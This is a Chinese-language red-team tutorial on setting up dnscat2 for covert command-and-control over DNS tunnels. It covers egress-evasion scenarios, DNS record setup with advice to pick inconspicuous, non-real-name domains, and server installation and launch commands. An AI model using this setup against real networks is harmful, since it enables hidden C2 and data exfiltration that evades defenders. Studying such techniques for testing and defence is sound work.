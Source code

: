 - 如果目标内网放行所有的DNS请求，dnscat2会使用`直连模式`，通过UDP的53端口进行通信(不需要域名，速度快，而且看上去仍然像普通的DNS查询)。在请求日志中，所有的域名都是以`dnscat`开头的，因此通信容易检测。
- 如果目标内网中请求仅限于白名单服务器或特定的域，dnscat2会使用`中继模式`来申请一个域名，并将运行dnscat2读无端的服务器指定为受信任的DNS服务器

DNS隧道应用场景：
```bash
在安全策略严格的内网环境中，只允许白名单流量出站，同时其他端口都被屏蔽，传统的C&C通信无碍建立，这时候Red Team还有一个选择：使用DNS隐蔽隧道建立通信
```

dnscat2特点：
```bash
- 支持多个会话
- 流量加密
- 使用密钥方式MiTM攻击
- 在内存中直接运行Powershell脚本
- 隐蔽通信
```

**使用**
1.部署域名解析
```bash
# vps(Linux)作为C&C服务端，并需要一个域名(godaddy网站。选择不显眼的域名，选择不实名的，国外的，尽量短)
1.创建A记录，把自己的域名解析服务器指向vps的ip(这里假设起名字ns1.360bobao.xyz)
2.创建NS记录，将dnsch子域名的解析结果指向A记录(名称为vpn指向ns1.360bobao.xyz)

# 检测A类解析和NS解析是否成功
在vps上抓包：
tcpdump -n -i eth0 udp dst port 53
解析测试(nslookup或dig)：
nslookup xxxxx.xxxx.xxxx
#如果能抓到对你域名进行查询的DNS请求数据包，就说明第二条NS就诶系设置已经生效
```


2.安装dnscat2服务端(在vps上)
```bash
# 先配置Ruby环境，kali内置了Ruby环境，但是运行时候可能缺少一些gem依赖包
# 这里使用ubuntu server
apt-get install gem
apt-get install ruby-dev
apt-get install libpq-dev
apt-get install ruby-bundlers

git clone https://github.com/iagox86/dnscat2.git
cd dnscat2/server
bundle install

# 启动服务端b
sudo ruby ./dnscat2.rb vpn.360bobao.** -e open -c pass123456 --no-cache
# 如果是采用的直连模式，输入以下命令
sudo ruby ./dnscat2.rb --dns server=127.0.0.1,port=553,type=TXT
# 以上命令表示：监听本机的553端口，自定义连接密码pass123456

# 参数
-c    # 定义了"pre-shared secret",可使用具有预共享密钥的身份验证机制来防止中间人攻击。如果不指定，会自动生成随机字符串(记录下来，客户端需要使用)
-e    # 规定安全级别。"open" 表示服务端允许客户端不进行加密
--no-cache    # 禁止缓存(该参数务必要添加，因为power-dnscat2客户端与dnscat2服务器的Caching模式不兼容)
```
